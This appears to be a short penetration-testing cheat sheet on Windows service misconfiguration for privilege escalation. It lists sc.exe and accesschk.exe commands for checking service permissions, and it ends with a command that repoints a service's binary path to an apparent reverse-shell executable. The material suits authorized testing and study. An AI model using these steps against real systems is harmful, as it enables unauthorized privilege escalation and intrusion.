 ```yaml
---
description: >-
  Basic commands when abusing services to elevate privileges after being
  identified with a tool such as WinPEAS.
---
```


# Service Exploitation

### Basic Commands

#### Query the Configuration of a Service

```powershell
sc.exe qc [SERVICE_NAME]
```

#### Query the Current Status of a Service

```powershell
sc.exe query [SERVICE_NAME]
```

#### Modify an option of a service:&#x20;

```powershell
sc.exe config [SERVICE_NAME] [OPTION]= [VALUE]
```

#### Start and Stop a Service

```powershell
net start/stop [SERVICE_NAME]
```

### Accesschk.exe

#### Use [Accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) to validate service permissions:

```powershell
.\accesschk.exe /accepteula -uwcqv user [SERVICE_NAME]
```

* What we are looking for in the output is the `SERVICE_START` and `SERVICE_STOP` permissions.
* We also want to confirm that it is running under a user with higher privileges (e.g., `LocalSystem`)

### Notes

* Validate if you can start/stop the service or the machine. If you cannot then you may not be able to use it to escalate your privileges.&#x20;
* An easy way to escalate privileges utilizing a service is to modify the binaries path. The following demonstrates an example of this:

```powershell
sc config [SERVICE_NAME] binpath= "\"C:\Windows\Tasks\reverse.exe\""
```

